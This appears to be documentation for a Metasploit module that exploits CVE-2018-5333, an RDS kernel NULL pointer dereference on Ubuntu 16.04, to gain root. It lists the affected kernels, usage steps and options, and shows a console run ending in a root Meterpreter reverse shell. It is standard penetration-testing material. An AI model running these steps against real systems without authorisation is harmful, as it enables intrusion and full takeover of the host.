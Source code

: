 ## Description

  This module attempts to gain root privileges on Linux systems by abusing
  a NULL pointer dereference in the `rds_atomic_free_op` function in the
  Reliable Datagram Sockets (RDS) kernel module (rds.ko).

  Successful exploitation requires the RDS kernel module to be loaded.
  If the RDS module is not blacklisted (default); then it will be loaded
  automatically.

  This exploit supports 64-bit Ubuntu Linux systems, including distributions
  based on Ubuntu, such as Linux Mint and Zorin OS.

  Target offsets are available for:

  Ubuntu 16.04 kernels 4.4.0 <= 4.4.0-116-generic; and
  Ubuntu 16.04 kernels 4.8.0 <= 4.8.0-54-generic.

  This exploit does not bypass SMAP. Bypasses for SMEP and KASLR are included.
  Failed exploitation may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on various 4.4 and 4.8 kernels.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)

### COMPILE

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled executable.


## Scenarios

### Ubuntu 16.04 kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu

  ```
  msf > use exploit/linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc 
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > check

  [+] System architecture x86_64 is supported
  [+] Linux kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu is vulnerable
  [+] SMAP is not enabled
  [+] LKRG is not installed
  [+] grsecurity is not in use
  [+] rds.ko kernel module is loaded
  [*] The target appears to be vulnerable.
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf exploit(linux/local/rds_atomic_free_op_null_pointer_deref_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] System architecture x86_64 is supported
  [+] Linux kernel 4.8.0-51-lowlatency #54~16.04.1-Ubuntu is vulnerable
  [+] SMAP is not enabled
  [+] LKRG is not installed
  [+] grsecurity is not in use
  [+] rds.ko kernel module is loaded
  [+] gcc is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/.zwl2ezPl' (250 bytes) ...
  [*] Launching exploit (timeout: 30)...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.206
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.206:48130) at 2019-12-21 02:22:40 -0500
  [+] Deleted /tmp/.aCNiWb9vps
  [+] Deleted /tmp/.zwl2ezPl
  [*] Linux RDS rds_atomic_free_op NULL pointer dereference local root (CVE-2018-5333)
  [*] [.] checking kernel version...
  [*] [.] kernel version '4.8.0-51-lowlatency #54~16.04.1-Ubuntu' detected
  [*] [~] done, version looks good
  [*] [.] checking system...
  [*] [~] done, looks good
  [*] [.] mapping null address...
  [*] [~] done, mapped null address
  [*] [.] KASLR bypass enabled, getting kernel base address
  [*] [.] trying /proc/kallsyms...
  [*] [-] kernel base not found in /proc/kallsyms
  [*] [.] trying syslog...
  [*] [.] done, kernel text:   ffffffffa7c00000
  [*] [.] commit_creds:        ffffffffa7ca6ed0
  [*] [.] prepare_kernel_cred: ffffffffa7ca72e0
  [*] [.] mmapping fake stack...
  [*] [~] done, fake stack mmapped
  [*] [.] executing payload 0x4027f7...
  [*] [+] got root

  meterpreter > getuid 
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.206
  OS           : Ubuntu 16.04 (Linux 4.8.0-51-lowlatency)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```


